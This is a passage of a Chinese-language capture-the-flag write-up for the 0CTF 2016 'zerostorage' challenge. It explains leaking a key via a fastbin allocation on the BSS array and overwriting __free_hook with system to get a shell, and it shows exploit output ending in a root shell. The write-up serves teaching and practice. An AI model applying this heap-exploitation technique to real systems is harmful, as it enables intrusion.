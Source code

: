 当leaking key的值的时候很巧妙。因为fastbin分配在了bss段上，更确切的说是全局数组no.5那，返回的地址指向no.5的ptr处，然后我们计算一下离no.8的ptr的距离--0x78。然后我们view一下能得到no.8的ptr的值，然后跟bss_addr + 0x40 + 24 *5 + 16亦或一下就能得到key的值了。

最后由于是Full RELRO，got表不可写，所以只能overwrite __free_hook(或其他的hook函数)。
```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }

  [...]
```
__free_hook函数会在free函数里最开始执行，所以我们可以把它覆盖为system的地址。最后free一个实现准备好了/bin/sh的堆块即可得到shell。
```shell
root@wolzhang666:/home/wolzhang/Desktop# python zerostorage.py
[+] Starting local process './zerostorage': Done

[*]unsorted_bin_addr: 0x7f2b4dd3c7b8
[*]heap_addr: 0x7f2b4eff0000
[*]libc_base_addr: 0x7f2b4d97e000
[*]system_addr: 0x7f2b4d9c4590
[*]global_max_fast_addr: 0x7f2b4dd3eb40
[*]free_hook_addr: 0x7f2b4dd3ea10
[*]PIE_addr: 0x7f2b4df68000
[*]bss_addr: 0x7f2b4e16b020
[*]key: 0x4b88fd09d5128999
[*]Get a shell!

[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$  
```
## Links
[0CTF 2016 - Zerostorage Writeup](http://brieflyx.me/2016/ctf-writeups/0ctf-2016-zerostorage/)
